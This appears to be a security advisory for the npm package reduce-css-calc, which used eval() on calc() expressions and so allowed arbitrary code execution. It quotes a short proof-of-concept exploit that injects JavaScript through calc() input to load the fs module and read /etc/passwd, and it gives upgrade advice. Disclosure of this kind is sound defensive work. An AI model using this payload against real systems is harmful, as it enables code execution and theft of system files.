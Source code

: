 ## Overview
`reduce-css-calc` is a package that reduces CSS calc() function to the maximum. Affected versions of the package used `eval()` for evaluation the expression, allowing the attacker to gain arbitrary code execution via specially crafted input.

## Example
The [issue](https://gist.github.com/ChALkeR/415a41b561ebea9b341efbb40b802fc9) was reported by [ChALkeR](https://github.com/ChALkeR) and demonstrated by his [example](https://gist.github.com/ChALkeR/415a41b561ebea9b341efbb40b802fc9) below:

```
const reduceCSSCalc = require('reduce-css-calc');
console.log(reduceCSSCalc(`calc(                       (Buffer(10000)))`));
console.log(reduceCSSCalc(`calc(                       (global['fs'] = require('fs')))`));
console.log(reduceCSSCalc(`calc(                       (fs['readFileSync']("/etc/passwd", "utf-8")))`));
```

## Remediation
Upgrade `reduce-css-calc` version 1.2.5 or greater.

## References
- https://gist.github.com/ChALkeR/415a41b561ebea9b341efbb40b802fc9
- https://github.com/MoOx/reduce-css-calc/blob/master/CHANGELOG.md#125---2016-08-22
